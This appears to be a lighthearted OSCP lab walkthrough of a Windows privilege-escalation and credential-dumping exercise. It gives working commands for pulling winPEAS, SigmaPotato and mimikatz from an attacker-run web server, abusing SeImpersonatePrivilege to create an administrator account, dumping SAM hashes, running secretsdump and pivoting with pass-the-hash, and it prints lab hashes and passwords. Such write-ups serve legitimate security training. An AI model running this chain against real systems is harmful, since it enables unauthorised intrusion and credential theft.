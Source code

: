 # OSCP-A Walkthrough

Okay we've been given creds to the .141 machine:

<img src="images/creds.png" style="border: 2px solid white"><br>

Let's run a quick portscan to figure out what's going on with this machine. For the time being, I don't care about services I just want to know what ports are open and I'll make assumptions - because time and time again I've proven <i>nothing</i> bad ever comes from making assumptions.

```nmap -T4 -Pn --open --top-ports 10000 192.168.233.141```

<img src="images/nmap.png" style="border: 2px solid white"><br>

Sweet! We have credentials and port 22 is open. Fair assumption, we can probably ssh.

```ssh eric.wallows@192.168.233.141```

<img src="images/ssh.png" style="border: 2px solid white"><br>

Now you may go straight for some common enumeration like `whoami /priv` or `net users` or something but I, a man of culture will waste so much time and instead use winPEAS. Why? Go away that's why.

Let's get winPEAS into the environment. (If you haven't already, <a href="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS">go download it from here</a>)

And we'll use a Python web server to get the file into the target machine.

On your own machine:

```python3 -m http.server 80```

On your target machine, in <b>Powershell</b> (for those playing along at home change the IP address to your IP. I know it's easy to follow these guides and turn your brain off):

```iwr -uri http://192.168.45.157/winPEASx64.exe -Outfile winPEASx64.exe```

And behold:

<img src="images/iwr.png" style="border: 2px solid white"><br>

Why am I working out of the Downloads folder? Stop asking questions I am literally giving you answers. Be nice.

```.\winPEASx64.exe```

<img src="images/winpeas1.png" style="border: 2px solid white"><br>

Now we're looking for things in <span style="color: #ff0000">RED</span>.

Fun things like this! (Which I pray you never see in client systems but I guarantee you will... you really will...)

<img src="images/noav.png" style="border: 2px solid white"><br>

But what we're looking for are privilege escalation opportunities. The main ones taught through OSCP are:

- Service Binary Injections
- DLL Injections
- Unquoted Service Paths
- Excessive Privileges

If you're stuck with any of these or don't like the sound of them because they're technical and therefore scary, the course content covers them all:

<img src="images/winpriv.png" style="border: 2px solid white"><br>

And what you'll notice from winPEAS is that you can often be overloaded with information.

<img src="images/winpeas2.png" style="border: 2px solid white"><br>

<img src="images/dll.png" style="border: 2px solid white"><br>

<img src="images/winpeas3.png" style="border: 2px solid white"><br>

But what I'm most interested in isn't actually in <span style="color: #ff0000">RED</span>. It's this:

<img src="images/seimpersonate.png" style="border: 2px solid white"><br>

`SeImpersonatePrivilege`

Because just about every time you see this in a hacking challenge, it's what you're supposed to do. According to offsec:<br>

<i>"Non-privileged users with assigned privileges, such as SeImpersonatePrivilege, can potentially abuse those privileges to perform privilege escalation attacks."</i>

Now if you follow course content, they'll get you to use SigmaPotato. Where I've normally used JuicyPotato, I'm going to venture out and try following content for a change. I often find that using the exact tools Offsec teaches you yields better results in their labs.

So let's <a href="https://github.com/tylerdotrar/SigmaPotato/releases/">download SigmaPotato</a>.

And just as we did before, we'll use our Python server to bring it over to the target machine:

```iwr -uri http://192.168.45.157/SigmaPotato.exe -Outfile SigmaPotato.exe```

Theoretically, SigmaPotato should abuse `SeImpersonatePrivilege` to run commands as `NT Authority/SYSTEM`. Let's try it out:

```.\SigmaPotato "whoami"```

<img src="images/sigmafail.png" style="border: 2px solid white"><br>

Awesome, that returned nothing and I have no idea how this works. Let's just follow the content and try adding a user.

The format is `net user <username> <password> /add`

```.\SigmaPotato "net user notanaccountant password /add"```

Password is password come hack me.

<img src="images/sigma2.png" style="border: 2px solid white"><br>

Okay and the moment of truth:

```net user```

<img src="images/netuser.png" style="border: 2px solid white"><br>

Nice! It worked.

Let's go ahead and make the account a Local Administrator while we're at it:

```.\SigmaPotato "net localgroup Administrators notanaccountant /add"```

<img src="images/localadmin.png" style="border: 2px solid white"><br>

We're on fire. 

It's like when you score too many points in <a href="https://www.youtube.com/watch?v=jT5yh2HATEQ">2003's NBA Jam</a> for the PlayStation 2.

<img src="images/nbajam.png" style="border: 2px solid white"><br>

Now let's make use of our elevated account. I'm going to exit this shell and start a new ssh session with our Local Administrator account.

(P.S you'll notice some IPs have changed from here as I came back another day)

```ssh notanaccountant@192.168.162.141```

<img src="images/elevatedssh.png" style="border: 2px solid white"><br>

Time to have some fun. Lateral movement and compromise of ActiveDirectory (AD) can be done in a million different ways. I'm going to try using <a href="https://github.com/ParrotSec/mimikatz">mimikatz</a>.

Bring it over to the target:

```iwr -uri http://192.168.45.243/mimikatz.exe -Outfile mimikatz.exe```

Execute it:

```.\mimikatz.exe```

Elevate token:

```token::elevate```

And privilege debug:

```privilege::debug```

<img src="images/mimikatz1.png" style="border: 2px solid white"><br>

Then we can dump some creds! 

```lsadump::sam```

<img src="images/mimikatz2.png" style="border: 2px solid white"><br>

Taking that first Hash NTLM from the `Administrator` account and throwing it in crackstation.net (because I'm too lazy to whip out hashcat at this point):

<img src="images/crackstation.png" style="border: 2px solid white"><br>

We see the password was "December31". The `support` user also had an easy password:

<img src="images/supportuser.png" style="border: 2px solid white"><br>

<img src="images/supportuser2.png" style="border: 2px solid white"><br>

"Freedom1". This might come in handy later. 

Okay let's take a step back. Now that we've got some hashes and plaintext passwords, let's try dumping some secrets. We know from winPEAS that the `celia.almeda` account had AutoLogon credentials, let's see if we can dump them. 

Firstly, install impackets on your Kali machine:

```python3 -m pipx install impacket```

Then we can run `secretsdump` and pass it the Administrators password. Notably, we can also have just passed it the hash we got from mimikatz, but I like knowing the plaintext password as well.

```impacket-secretsdump 'MSO1/Administrator:December31@192.168.162.141'```

OR

```impacket-secretsdump administrator@192.168.162.141 -hashes :3c4495bbd678fac8c9d218be4f2bbc7b```


<img src="images/secretdump.png" style="border: 2px solid white"><br>

Look nice and closely

<img src="images/defaultpassword.png" style="border: 2px solid white"><br>

Boom!

Now we can use celia's account to pivot!

```evil-winrm -i 10.10.122.142 -u "celia.almeda" -H E728ECBADFB02F51CE8EED753F3FF3FD```

celia password 7k8XHk3dMtmpnC7